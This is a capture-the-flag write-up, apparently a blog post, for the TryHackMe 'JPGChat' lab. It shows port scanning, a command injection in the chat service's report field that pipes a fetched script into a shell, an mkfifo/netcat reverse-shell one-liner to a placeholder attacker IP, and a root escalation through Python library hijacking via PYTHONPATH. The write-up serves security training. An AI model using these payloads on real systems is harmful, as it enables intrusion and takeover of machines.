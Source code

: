 ```yaml
---
layout: post
title: TryHackMe/Easy/JPGChat
abbrlink: 2bfd4d7c9bbe45c2bb7ab75f0b417714
tags:
  - command injection
  - python
  - web
  - linux
categories:
  - Labs
  - TryHackMe
  - 1. Easy
  - JPGChat
date: 1724529590421
updated: 1724618245325
---
```


<https://tryhackme.com/r/room/jpgchat>

# Enumeration

## \[+] 10.10.80.134 - jpgchat.thm

We will add the target IP address and a domain name to our `/etc/hosts` file. Using `sudo sh -c`, executes the entire command as a subshell as `root` where we will then use `echo` to create a new line with `\n` followed by our target IP and the domain name we give it.

```sh
sudo sh -c 'echo "\n10.10.80.134 jpgchat.thm" >> /etc/hosts'
```

Then `export` the IP address to the environment variable `RHOSTS` so I can use `$RHOSTS` instead of typing the IP address every time.

```sh
export RHOSTS=10.10.80.134
```

First, I run a quick scan with [rustscan](https://github.com/RustScan/RustScan) and a longer [nmap](https://nmap.org/) stealth scan with `-Pn` mode enabled which will treat all hosts as online which helps find other hosts that block ICMP packets:

```sh
rustscan -a $RHOSTS --ulimit 5000 -b 4500 -t 2000 --range 1-65535 -- -sC -sV
sudo nmap -v -Pn -sS -p- -A --min-rate=1000 -T4 $RHOSTS -oN nmap.txt
```

# Initial Foothold

## Port 3000 - TCP

### \[-] wes\@ubuntu-xenial

We can use [Netcat](https://linux.die.net/man/1/nc) to interact with this port by using the following command:

```sh
nc jpgchat.thm 3000
```

![36587d08c02c16f7cb21d9d8a30358f3.png](/resources/ccc29c33163a4efebbfdfa3d1347d963.png)

In the welcome banner, we find a note that let's us know where to find the source code of the application. Searching for "jpgchat github" leads us to [this GitHub page](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

On lines 13 and 14, we will find that submitting a report directly takes user input and stores it as variables (`your_name` and `your_report`) then uses it in a `bash` command without any input sanitization. Also, using the `os.system` function along with `bash` is not necessary as `os.system` can run commands as well:

![c49b6c97a6a43e80752c4bb864c8a715.png](/resources/9ab2b0b917384a7f9094c7c8a176199a.png)

We can inject our own malicious commands in either of the variables (`your_name` or `your_report`) and the victim machine will run it. When we use a name like `test; <COMMAND>`, the semicolon (`;`) will end the command in the code and begin running the next command after. Essentially, it's like hitting `ENTER` after each command.

To get a reverse shell, we will send a `curl` command to the victim machine that will download a bash script with our reverse shell and pipe it to bash.

First, create a text file named `shell.sh` with the following code:

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Host the script using `python3`:

```sh
python3 -m http.server 8888
```

Now that we are setup, we can inject our command in the report function of the vulnerable application. Connect to the service again using `nc` then type `[REPORT]` to fill out the report form.

```sh
nc jpgchat.thm 3000
[REPORT]
test; curl '10.13.57.211:8888/shell.sh' | sh;
test
```

![c75c9602303ed12e9a1fff22474f61c2.png](/resources/20752a0f4bb74971adf1b43817b29a72.png)

Back on our Netcat listener we should have a connection back from the victim:

![6ec4f21ad1f55aced4178e9eb1109f5f.png](/resources/0dacae0280eb4c0f9a26e0820f45156d.png)

Let's stablize the shell we just got by doing the following steps:

1. Use Python to spawn a stable shell:
   ```sh
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   ```
2. `CTRL+Z` to background the current shell
3. Fix echoing and foregrounds the shell:
   ```sh
   stty raw -echo;fg
   ```
4. Set terminal to use 256 colors:
   ```sh
   export TERM=xterm-256color
   ```

We can find the user flag in `/home/wes/user.txt`:

```sh
cd /home/wes/
ls -lah
cat user.txt
```

![9dc692d6e0de47349abefc96b7ab358c.png](/resources/d83027336c444de7b23a18f3f40b7847.png)

# Privilege Escalation

### \[-] root\@ubuntu-xenial

Checking our sudo privileges for the user `wes` shows two important things:

1. The `env_keep` directive specifices which environment variables should be preserved when running commands with `sudo`. The `+=` notation means that the `PYTHONPATH` variable is added to the list of environment variables to be preserved, without affecting other existing settings.
2. We can run a Python script with root permissions

```sh
sudo -l
```

![8ff913f01f24c7ee2fd08c0031b734e0.png](/resources/d0c5abf3e7bf4e0e836a727c50cf817b.png)

Next, we will check the permissions of the script which we will find that is read-only for us:

```sh
ls -la /opt/development/test_module.py
```

![147f518ce4fd4644f628e04d0a2d13c0.png](/resources/f2f74104589a411ba8372d61f1db31a7.png)

Since we have read access, let's print the source code of the script to see what it's doing:

```sh
cat /opt/development/test_module.py
```

`test_module.py`:

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

The script is using a wildcard symbol (`*`) which will import everything from the `compare` module. We can create our own malicious module and set the `PYTHONPATH` environment variable to point it so that we can run our malicious code with root privileges. This is called [Python library hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/).

To begin, we will create a text file named `compare.py` and import the `os` module so we can run system commands via Python and use it to spawn a bash shell which will be running as the `root` user.

```sh
cd ~
cat > compare.py << EOF
import os
os.system('/bin/bash')
EOF
chmod +x compare.py
export PYTHONPATH=/home/wes
sudo /usr/bin/python3 /opt/development/test_module.py
```

![cafb91af9a682193cda486255d37055c.png](/resources/5d282b4f202b4d7ca59bb2917b0af2d9.png)

We can find the root flag in `/root/root.txt`:

```sh
ls -lah /root
cat /root/root.txt
```

![e91bfa2a3a3d131ff5f8a6cf54229924.png](/resources/dd68adbd3d0040cfbe74aa1fbc8c890a.png)
